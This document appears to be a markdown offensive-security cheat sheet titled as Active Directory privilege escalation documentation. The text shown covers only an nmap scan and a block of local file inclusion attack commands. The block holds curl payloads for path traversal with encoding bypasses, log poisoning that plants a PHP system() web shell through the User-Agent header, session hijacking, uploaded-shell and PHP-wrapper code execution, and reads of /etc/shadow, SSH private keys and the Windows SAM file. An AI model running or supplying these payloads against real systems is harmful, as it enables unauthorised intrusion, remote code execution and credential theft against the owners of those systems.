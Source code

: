 ## Full Documentation: Privilege Escalation and Pivoting in Active Directory (EN)

### 1. Network and Port Scanning with Nmap

```bash
nmap -sV 192.168.80.10
```

Port 80 is open — access the web server via browser.

### 2. Web Vulnerability Enumeration

* **LFI**: 

```bash
# ✅ Basic LFI Examples
curl "http://target/index.php?page=../../../../etc/passwd"
curl "http://target/index.php?page=../../../../windows/win.ini"
curl "http://target/index.php?page=../../../../var/log/apache2/access.log"

# 🔐 Bypass Filters
curl "http://target/index.php?page=..%2f..%2f..%2fetc%2fpasswd"          # URL encoded
curl "http://target/index.php?page=..%252f..%252fetc%252fpasswd"        # Double encoded
curl "http://target/index.php?page=../../../../etc/passwd%00"           # Null byte (old PHP)

# 🐚 LFI to RCE via Log Poisoning
# Step 1: Inject PHP via User-Agent header (access.log poisoning)
curl -A "<?php system(\$_GET['cmd']); ?>" "http://target/"
# Step 2: Include poisoned log to execute
curl "http://target/index.php?page=../../../../var/log/apache2/access.log&cmd=id"

# 🧑‍💻 Session Hijacking via LFI
curl "http://target/index.php?page=/var/lib/php/sessions/sess_abcd1234"

# ☠️ File Upload + LFI to RCE
# Upload image with embedded PHP code, then include it
curl "http://target/index.php?page=../../uploads/shell.jpg&cmd=id"

# 🌀 PHP Wrappers (if allow_url_include=On)
curl "http://target/index.php?page=php://filter/convert.base64-encode/resource=index.php"
curl "http://target/index.php?page=data:text/plain,<?php system(\$_GET['cmd']); ?>&cmd=id"

# 📁 Target Files (Linux/Windows)
curl "http://target/index.php?page=/etc/passwd"
curl "http://target/index.php?page=/etc/shadow"
curl "http://target/index.php?page=/etc/hostname"
curl "http://target/index.php?page=/home/user/.ssh/id_rsa"
curl "http://target/index.php?page=C:/Windows/win.ini"
curl "http://target/index.php?page=C:/Windows/System32/config/SAM"
```
